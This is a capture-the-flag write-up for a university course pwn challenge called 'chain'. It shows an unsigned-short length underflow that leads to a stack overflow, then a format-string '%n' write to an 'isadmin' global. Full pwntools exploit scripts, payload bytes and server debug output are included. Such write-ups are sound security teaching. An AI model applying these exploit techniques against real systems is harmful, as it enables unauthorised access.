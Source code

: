 ```yaml
---
title: "Tutor CTF: Chain"
description: (500 points) Pwn Challenge
author: Kevin Zhu
public: true
uploadDate: 2022-04-11 17:49+11:00
lastModified: 2022-04-11 17:49+11:00
notes: ''
tags:
- capture the flag
- tutor ctf
- comp6841
menu:
  groups: []
  submenus: []
name: 41_tutorctf_chain
---
```


## Exploration

We're given just the netcat server IP and port, as well as a single executable `chain`. No source code this time! Let's start by running the script and checking the output:

```term
$ ./chain
How long is your name?
5
Enter your name:
Kevin
Welcome "Kevin
"!
Let's see if you are admin...
Have you tried being a better hacker?
```

So it appears that we can enter in a name length, as well as your actual name. Your name is then printed out, and it appears that we fail some sort of check because we get faced with the message `"Have you tried being a better hacker?"`. A typical thing to try now is a buffer overflow. Let's try entering a super long name:

```term
$ ./chain
How long is your name?
123456
Sorry, get a shorter name
```

Looks like they have a check for the name length. Doing a bit of binary searching, I found the highest length I could enter was 63. Now let's try do a buffer overflow:

```term
$ ./chain
How long is your name?
63
Enter your name:
ABCOEOWUGEHOWEUGHOWURHGOWUGHOWURGHOWROGUHWRGOUWHROGUHRWOGUHWROGUHWOGUHOWRUGHOWRUGHOWRUGHOWUGHOWURHGOUWHGOWURHGOUWHGOWUHRGOWURHGOWURHGOWURGHOWURGHOWRUGHWORGUHWORGUHWOGHUWORGHUOWRGUHWORGUHOWRUGHOWRUHGOWURGH
Welcome "ABCOEOWUGEHOWEUGHOWURHGOWUGHOWURGHOWROGUHWRGOUWHROGUHRWOGUHWRO"!
Let's see if you are admin...
Have you tried being a better hacker?
```

Looks like they cut off our name after 62 characters, which is the limit that we set minus 1. Finally, let's try a format strings attack:

```term
$ ./chain
How long is your name?
63
Enter your name:
%x.%x.%x
Welcome "%x.%x.%x
"!
Let's see if you are admin...
Have you tried being a better hacker?
```

Looks like it didn't work. It doesn't look like we'll get much more information from this, so let's go ahead and try reverse engineering it.

## Reverse Engineering

Booting up `chain` in Ghidra and doing some variable renaming, we get the following:

![](/blog_posts/41_tutorctf_chain/images/image1.png){width=70%}

So it appears that after entering our name length (stored in `name_len[0]`), they subtract one and use that as an argument for `read()`. However, this is really important, since `name_len[0]` is defined as a unsigned short. That means that if we enter a length of 0, not only does it pass the max length check, it means that after we subtract one from it, our name_length will underflow. That means that we'll able to scan up to 0XFFFF = 65535 characters! Let's try this

```term
$ ./chain
How long is your name?
0
Enter your name:
WROGUHWORGUHWOUGHOWURGHOUWRGHOWRHGOURHWOGHOWGOWRUGHORWHGGORHOWGHUOHGWOGURWHGOUWGOHOWGHURUROWHUGRWUGRWHOGHUROWGHUORWHGOUHWOUHGOUWWHRGOUWGOHWROGHOUGHOWHGUORHWOGHURWOHGOWHGUOHWOGOWUGWOGUOWHGROWUGHWORUGOHWOGOWRUGHOWHGORWUGHOWUGOHWROGORWHGUOHRWUOGHWRGHWORG
Welcome "WROGUHWORGUHWOUGHOWURGHOUWRGHOWRHGOURHWOGHOWGOWRUGHORWHGGORHOWGHUOHGWOGURWHGOUWGOHOWGHURUROWHUGRWUGRWHOGHUROWGHUORWHGOUHWOUHGOUWWHRGOUWGOHWROGHOUGHOWHGUORHWOGHURWOHGOWHGUOHWOGOWUGWOGUOWHGROWUGHWORUGOHWOGOWRUGHOWHGORWUGHOWUGOHWROGORWHGUOHRWUOGHWRGHWORG
�"!
UOHGWOGURWHGOUWGOHOWGHURUROWHUGRWUGRWHOGHUROWGHUORWHGOUHWOUHGOUWWHRGOUWGOHWROGHOUGHOWHGUORHWOGHURWOHGOWHGUOHWOGOWUGWOGUOWHGROWUGHWORUGOHWOGOWRUGHOWHGORWUGHOWUGOHWROGORWHGUOHRWUOGHWRGHWORG
�Have you tried being a better hacker?
```

As we can see, we got far more than 63 characters in the Welcome message. But there's more... Where did the `"Let's see if you are admin..."` message go? It seems to have been replaced with more of the nonsense text from the name we entered. Looking at the Ghidra code, we see that the check admin message was originally stored on the stack. This means that we've now achieved buffer overflow, and have started overwriting the admin message.

But this is critical. We see that on line 56, `printf()` is called directly on the string. That means that admin message string is susceptible to a format string vulnerability attack. Let's start by overwriting the admin message to start with 4B's, and then trying to find where on the stack those B's lie. After a bit of experimentation with pwntools, this is what I came up with

```python
from pwn import *

conn = remote("13.210.180.94",  12345)
conn.recvuntil(b'How long is your name?')
conn.sendline(b'0')
conn.recvuntil(b'Enter your name:')

buf = b'A'*63 + b'\x00'
buf += f'ABBBB.%24$x'.encode()
conn.sendline(buf)
conn.recvall()
```

Note that I had an extra 'A' at the beginning of the "BBBB" in order to get the bytes to align properly. Sometimes a littl experimentation like this is required. Running this, I got:

```term
$ p3 get.py DEBUG
[+] Opening connection to 13.210.180.94 on port 12345: Done
[DEBUG] Received 0x16 bytes:
    b'How long is your name?'
[DEBUG] Sent 0x2 bytes:
    b'0\n'
[DEBUG] Received 0x1 bytes:
    b'\n'
[DEBUG] Received 0x11 bytes:
    b'Enter your name:\n'
[DEBUG] Sent 0x4c bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000030  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 00  │AAAA│AAAA│AAAA│AAA·│
    00000040  41 42 42 42  42 2e 25 32  34 24 78 0a               │ABBB│B.%2│4$x·│
    0000004c
[+] Receiving all data: Done (147B)
[DEBUG] Received 0x4b bytes:
    b'Welcome "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"!\n'
[DEBUG] Received 0x47 bytes:
    b'ABBBB.42424242\n'
    b' you are admin...\n'
    b'Have you tried being a better hacker?\n'
[*] Closed connection to 13.210.180.94 port 12345
```

Notice that at the end, I receive `0x47` bytes, which start with `b'ABBBB.42424242\n'`. The 42's are the hexadecimal representation of 'B', which means that we've managed to find the location of the B's on the stack. From here, all we need to do is replace the B's with the address of `isadmin`, and replace the `%x` with a `%n`. The `%n` will have the effect of writing the number of bytes we've written so far in the printf to the address specified. Note that the exact number of bytes that `%n` will use to write to `isadmin` doesn't matter, as long as it's non zero.

To get the address of `isadmin`, we can use objdump:

```term
$ objdump -t ./chain | grep isadmin
0804a044 g     O .bss	00000004              isadmin
```

I.e. the address is `0x0804a044`. Modifying out python script to the following and running it gets us the flag.

```python
from pwn import *

conn = remote("13.210.180.94",  12345)
conn.recvuntil(b'How long is your name?')
conn.sendline(b'0')
conn.recvuntil(b'Enter your name:')

buf = b'A'*63 + b'\x00'
# buf += f'ABBBB%24$x\n\x00'.encode()
buf += b'A\x44\xa0\x04\x08%24$n'
conn.sendline(buf)
ret = conn.recvall()
print(ret)
```

```term
$ p3 get.py DEBUG
[+] Opening connection to 13.210.180.94 on port 12345: Done
[DEBUG] Received 0x16 bytes:
    b'How long is your name?'
[DEBUG] Sent 0x2 bytes:
    b'0\n'
[DEBUG] Received 0x1 bytes:
    b'\n'
[DEBUG] Received 0x11 bytes:
    b'Enter your name:\n'
[DEBUG] Sent 0x4b bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000030  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 00  │AAAA│AAAA│AAAA│AAA·│
    00000040  41 44 a0 04  08 25 32 34  24 6e 0a                  │AD··│·%24│$n·│
    0000004b
[+] Receiving all data: Done (357B)
[DEBUG] Received 0x4b bytes:
    b'Welcome "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"!\n'
[DEBUG] Received 0x119 bytes:
    00000000  41 44 a0 04  08 0a 66 20  79 6f 75 20  61 72 65 20  │AD··│··f │you │are │
    00000010  61 64 6d 69  6e 2e 2e 2e  0a 43 4f 4d  50 36 38 34  │admi│n...│·COM│P684│
    00000020  31 ?? ?? ??  ?? ?? ?? ??  ?? ?? ?? ??  ?? ?? ?? ??  │1{RE│DACT│EDRE│DACT│
    00000030  ?? ?? ?? ??  ?? ?? ?? ??  ?? ?? ?? ??  ?? ?? ?? ??  │EDRE│DACT│EDRE│DACT│
    00000040  ?? ?? ?? ??  ?? ?? 7d 0a  00 00 00 00  00 00 00 00  │EDRE│DA}·│····│····│
    00000050  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    00000110  00 00 00 00  00 00 00 00  00                        │····│····│·│
    00000119
[*] Closed connection to 13.210.180.94 port 12345
b'\nWelcome "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"!\nAD\xa0\x04\x08\nf you are admin...\nCOMP6841{REDACTED}\n\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
```
> _Note: Bytes replaced with '?', to avoid spoilers._